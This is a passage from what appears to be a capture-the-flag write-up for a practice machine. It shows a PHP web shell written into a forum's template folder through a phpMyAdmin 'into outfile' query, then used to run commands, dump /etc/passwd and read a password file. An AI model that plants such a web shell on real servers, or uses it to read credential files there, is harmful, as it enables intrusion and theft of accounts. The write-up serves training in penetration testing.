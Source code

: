 We looked around and found that we could create a new file from `phpmyadmin` into this folder
```sh
SELECT "<?php system($_GET['cmd']) ?>" into outfile "/var/www/forum/templates_c/cmd.php"
```
So we executed this in the `phpmyadmin` exec page
![result](./assets/phpmyadmin_executed.png)
And we got a new file
![result](./assets/templates_c_new.png)
And with that we could execute commands

for example: https://192.168.1.48/forum/templates_c/EXPLOIT.php?cmd=ls

to execute ls and with anything we want just by replacing ls.

We then looked at etc/password
```
https://192.168.1.48/forum/templates_c/cmd.php?cmd=cat%20/etc/passwd
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh news:x:9:9:news:/var/spool/news:/bin/sh uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh proxy:x:13:13:proxy:/bin:/bin/sh www-data:x:33:33:www-data:/var/www:/bin/sh backup:x:34:34:backup:/var/backups:/bin/sh list:x:38:38:Mailing List Manager:/var/list:/bin/sh irc:x:39:39:ircd:/var/run/ircd:/bin/sh gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh nobody:x:65534:65534:nobody:/nonexistent:/bin/sh libuuid:x:100:101::/var/lib/libuuid:/bin/sh syslog:x:101:103::/home/syslog:/bin/false messagebus:x:102:106::/var/run/dbus:/bin/false whoopsie:x:103:107::/nonexistent:/bin/false landscape:x:104:110::/var/lib/landscape:/bin/false sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash mysql:x:106:115:MySQL Server,,,:/nonexistent:/bin/false ftp:x:107:116:ftp daemon,,,:/srv/ftp:/bin/false lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash laurie@borntosec.net:x:1002:1002:Laurie,,,:/home/laurie@borntosec.net:/bin/bash laurie:x:1003:1003:,,,:/home/laurie:/bin/bash thor:x:1004:1004:,,,:/home/thor:/bin/bash zaz:x:1005:1005:,,,:/home/zaz:/bin/bash dovecot:x:108:117:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false dovenull:x:109:65534:Dovecot login user,,,:/nonexistent:/bin/false postfix:x:110:118::/var/spool/postfix:/bin/false 
```
But nothing was interesting so we looked at `/home` and found an interesting file
```
https://192.168.1.48/forum/templates_c/cmd.php?cmd=cat%20/home/LOOKATME/password
```
Inside of it were FTP passwords
```
```